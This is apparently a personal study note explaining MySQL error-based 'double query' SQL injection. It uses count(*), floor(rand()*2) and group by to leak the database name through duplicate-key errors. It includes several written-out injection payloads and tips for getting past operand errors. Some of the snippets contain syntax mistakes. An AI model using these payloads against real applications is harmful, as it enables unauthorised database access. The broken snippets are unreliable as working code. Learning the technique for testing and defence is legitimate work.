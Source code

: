 
# Error based SQLi
**TL;DR we extract info via forced error messages. We do this by causing multiple entries for the same temp table ID.**  
[Source_1](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
Bu putting together a query which will create a temporary table by generating int 0-1 for each row of data, ad then grouping them by whichever int this happens to be. If the values end up the same form repeated runs, an error is produced which concede information pertaining to whatever it was we were selecting from.

So the two trick parts, count(*) and rand() are both needed so that MySQL actually runs this multiple times, instead of just optimizing past it. But the trick is to create a temporary table that has duplicate keys, and let MySQL tell us about the value of that key in an error.
EG

### `Select count(*), Select floor(rand()*2)a from users group by a`
<pre>
+----------+---+  
| count(*) | a |  
+----------+---+  
|       10 | 0 |  
|        3 | 1 |  
+----------+---+  
</pre>
After running repeatedly eventually all values will end up either 0 or 1, thus erring out

`Count(*)` – displays number of rows in table  
`Floor()` – reduces a decimal to the floor (nearest possible integer)  
`Rand()*2` – generates a random decimal between 0 and 1, the *2 adds   another integer so it becomes between 0 and 2  
`Group by` – will aggregate the same values in the column, in this case the assigned alias is “a”
Further enumeration can be carried out by going after  information_schema.tables:

### `' or (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)#`  
  
  
`concat` concatenates 2 strings and `database()` pulls the name of the current DB, thus we concatenate current DB along with "a" from info schema

when this eventually errors out,as you probably guessed, the current db name will be yielded in the error.  

We may get an error regarding too many columns for operand if the injection vector contains `AND` as it operates on 2 operands. We can navigate out of this by nesting our entire existing query string, thus making the whole thing 1 table for a selectstatement work on, with alias `b`

`and (select 1 from (Select count(*),concat((select database()),”+”, Select floor(rand()*2)a from information_schema.tables group by a)b`

We can play aroun with other commands as below:

`' or (select 1 from (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)b)#` 

_'Operand should contain 1 column(s)' = prepend `(select 1`  
'Subquery returns more than 1 row' = keep running the query until error!

